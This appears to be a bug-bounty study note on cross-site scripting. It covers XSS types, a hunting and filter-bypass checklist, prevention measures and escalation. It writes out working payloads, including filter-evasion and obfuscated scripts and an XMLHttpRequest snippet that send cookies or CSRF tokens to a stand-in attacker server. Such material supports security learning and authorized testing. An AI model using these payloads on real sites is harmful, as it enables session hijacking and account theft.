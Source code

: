 # Mechanisms and How it works

Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application.
## Types of XSS
There are three Main kinds of XSS: The difference between these types is in how the XSS payload travels before it gets delivered to the victim user.
- [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting#reflected-cross-site-scripting), where the malicious script comes from the current HTTP request.
- [Stored XSS](https://portswigger.net/web-security/cross-site-scripting#stored-cross-site-scripting), where the malicious script comes from the website's database.
- [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting#dom-based-cross-site-scripting), where the vulnerability exists in client-side code rather than server-side code.

# Hunting for XSS

#### Step 1: Look for Input Opportunities

- look for opportunities to submit user input(comment, user profiles, blog posts, forms, search, and name and username fields in sign-ups)
- even the drop down menus and numeric values are chances (u can edit the value in Burp)
- for reflected and DOM (URL parameters, fragments `#`, or pathnames that get displayed back)
#### Step 2: Insert Payloads

-  Inject different payloads like event handlers`<img src=x onerror=alert('Hunter')>`
- Try different URL scheme `javascript:alert`, `data:text/html,<script>alert('XSS by Vickie')</script>` Try encoding 
- check for user to load an image by using a URL and use it as their profile picture:   `https://example.com/upload_profile_pic?url=IMAGE_URL`
- Take a look at the [XSS cheatsheet]([Cross-Site Scripting (XSS) Cheat Sheet - 2023 Edition | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) from PortsWigger.
- Browser use different tags and event handlers, so test by using different browsers 
- Close out previous HTML tags `<img src=""/><script>location="http://attacker.com";</script>">`
- inject special chars and STUDY the response `>'<"//:=;!--`
- use XSS hunter for blind XSS


# Methodology and Testing Checklist

- search for input fields like comments and URL params
- Fuzz parameter using Arjun and param-miner to get hidden params
- inject special chars and STUDY the response `>'<"//:=;!--` and make payload from the ones that worked and didn't get escaped or encoded
- the app escaping or deleting the `<Script>`tags?
	- Try event handlers 
	- Try URL scheme `javascript:alert`, `data:text/html,<script>alert('Hunter')
	- Use Recursive tags `<scrip<script>t>location='http://attacker_server_ip/c='+document.cookie;</scrip</script>t>`
	- Try capitalization and encoding
	- Try eval() function
- the App filters the special chars like the single and double quotes?
	- Use the fromCharCode function
	  `<scrIPT>location=String.fromCharCode(104 116 116 112 58 47 47 72 117 110 116 101 114 47 63 99 61)+document.cookie;` to map the ascii to string
-  Try HTTP Parameter Pollution
- look at  [WSTG - v4.2: Testing for XSS](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting) | [Cross-Site Scripting (XSS) Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) | [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
# Prevention

For more detailed guides look at [PortSwigger: How to prevent XSS](https://portswigger.net/web-security/cross-site-scripting) | [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- Filter input on arrival
- Encode data on output: encode the output to prevent it from being interpreted as active content
- use the `Content-Type` and `X-Content-Type-Options` headers to ensure that browsers interpret the responses in the way you intend.
- Use Content Security Policy (CSP) to reduce the severity of any XSS vulnerabilities that still occur
- escaping especial chars
- use HTML entities function
- sanitize and validate every user input
# Escalating the Attack

Steal CSRF Token of the user and send it to your server as a parameter in the logs

```javascript
var token = document.getElementsById('csrf-token')[0];
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://attacker_server_ip/?token="+token, true);
xhr.send(null)
```

- automatically redirect the victim to malicious pages and perform other harmful operations such as installing malware
- make sure to assess the full impact of that particular XSS to include in your vulnerability report.
# Automating XSS Hunting

If the program you are targeting allows automatic testing, you can use Burp intruder or other fuzzers to conduct an automatic XSS scan on your target, 
u can find many payloads for that here  [Cross-Site Scripting (XSS) Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) | [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

==We will talk more about it in details SOON==

# Finding Your First XSS!
1. Look for user input opportunities on the application
2. Insert XSS payloads into the user input fields you’ve found. Insert payloads from lists online, a polyglot payload, or a generic test string
3. Confirm the impact of the payload by checking whether your browser runs your JavaScript code. Or in the case of a blind XSS, see if you can make the victim browser generate a request to your server.
4. If you can’t get any payloads to execute, try bypassing XSS protections.
5. Automate the XSS hunting process
6. Consider the impact of the XSS you’ve found: who does it target? How many users can it affect? And what can you achieve with it? Can you escalate the attack by using what you’ve found?
# References 

Very Recommended Writeup: [How I Found Multiple XSS Vulnerabilities Using Unknown Techniques](https://infosecwriteups.com/how-i-found-multiple-xss-vulnerabilities-using-unknown-techniques-74f8e705ea0d)